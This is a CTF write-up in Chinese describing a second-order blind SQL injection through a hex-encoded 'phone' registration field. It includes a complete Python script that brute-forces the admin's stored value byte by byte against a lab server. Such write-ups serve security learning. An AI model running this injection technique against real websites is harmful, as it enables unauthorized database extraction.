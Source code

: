# CNAS/MPS CTF 2017: Malicious Code Protection 

**Points:** 200

> 安全主管部门告诉你这个网站的phone参数有问题，但具体什么问题没说，请根据你丰富的经验找到该网站的漏洞并复现。

> [PutResourceHere](PutResourceHere)  

## Write-up

首先检查了基本的username和password注入可行性，失败。

然后根据题目提示检查了phone参数，实际上并没有长度限制，`maxlength`是前端的限制。

尝试了一下phone为非数字字符，提示必须为数字。试了一下`phone=.1`，注册成功，估计后台校验用的是`is_numeric`。于是再试了一下`phone=0x61626364'，注册成功并且登录后提示phone为abcd，但是在check有多少相同的phone的时候却出现了db error!的提示。

思考了一会儿，猜测后台逻辑是直接`INSERT INTO table VALUES ('$username', '$password', $phone)`，这之后再从数据库里SELECT出phone存储到php的`$_SESSION`中，最后检查多少phone相同的时候直接用`$_SESSION`中的phone拼接到SQL语句中，于是就有`SELECT COUNT(*) FROM table WHERE phone=$_SESSION[phone]`这样的语句。这样，当我注册phone为0x61626364的时候数据库中由于不存在abcd字段名就报错了。

剩下就清晰了，不过由于没有其它回显，只有提示多少电话号码相同的一个回显，就只能盲注。通过不停注册帐号来爆破admin的phone，写了个python脚本。

```python
import requests
from binascii import unhexlify, hexlify
import re
from random import shuffle


error = '<!DOCTYPE html>\n<html>\n<head>\n\t<title>Check</title>\n</head>\n<body>\n<div class="text" style=" text-align:center;">There only 1 people use the same phone as you</div><!-- å\x90¬è¯´adminç\x9a\x84ç\x94µè¯\x9dè\x97\x8fç\x9d\x80å¤§ç§\x98å¯\x86å\x93¦ï½\x9e-->\n</body>\n</html>'
alert = re.compile(r'alert\((.*?)\)')

# charsets
alnum = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYz0123456789'
digit = '0123456789'

payload = "{rand}||username='admin'&&ASCII(MID(phone,{offset},1))>={guess}"


def randstr(charset):
    charset = list(charset)
    shuffle(charset)
    return ''.join(charset)


def str2hex(string):
    return hexlify(string.encode()).decode()


def register(user):
    url = 'http://172.16.5.155/register.php'
    find = alert.findall(requests.post(url, user).text)
    if find:
        raise Exception(*find)


def login(user):
    session = requests.session()
    url = 'http://172.16.5.155/login.php'
    find = alert.findall(session.post(url, user).text)
    if find:
        raise Exception(*find)
    return session


def check(session, user):
    url = 'http://172.16.5.155/check.php'
    resp = session.get(url).text
    if resp.find('db error!') != -1:
        raise Exception('db error!')
    return resp


def getflag(offset):
    bnd = [0x20, 0x80]
    while bnd[0] + 1 != bnd[1]:
        m = bnd[0] + bnd[1] >> 1
        # generate random phone number so that there will
        # be only 1 user (myself) have same phone number as mine.
        randphone = randstr(digit)
        user = {
            'username': randstr(alnum),
            'password': 'f4K3@Pa55wOrd*ha//hei-ho',
            'phone': '0x' + str2hex(payload.format(
                rand=randphone,
                offset=offset,
                guess=m)),
        }
        register(user)
        session = login(user)
        resp = check(session, user)
        bnd[int(resp == error)] = m
    return chr(bnd[0])


if __name__ == '__main__':
    offset = 1
    while True:  # Just hit Ctrl+C manually to exit.
        print(getflag(offset), end='', flush=True)
        offset += 1
```

## Other write-ups and resources

* <https://ctf-team.vulnhub.com/>
